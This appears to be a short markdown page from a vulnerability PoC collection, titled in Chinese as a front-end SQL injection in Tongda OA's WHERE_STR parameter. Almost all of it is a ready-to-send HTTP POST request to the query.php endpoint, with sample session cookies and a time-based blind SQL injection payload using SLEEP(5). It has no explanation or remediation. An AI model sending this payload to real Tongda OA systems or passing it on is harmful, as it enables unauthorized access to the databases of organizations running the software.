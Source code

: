 ## 通达OA-WHERE_STR存在前台SQL注入漏洞

## poc
```
POST /general/management_center/portal/oa_engine/engine_manage_bulletin_number/query.php HTTP/1.1
Host: 
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=a817a534f7c99980f8be6ad061b4c2cb; USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=c589adfc; UI_COOKIE=0; KEY_RANDOMDATA=13568
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

WHERE_STR=-@`'` AND (SELECT 4916 FROM (SELECT(SLEEP(5)))Xsep)
```
![cb79742fa584a2c53129432d2c79eaed](../../images/90cd86b0-8e67-4eb8-bc38-896ad6b78be5.png)

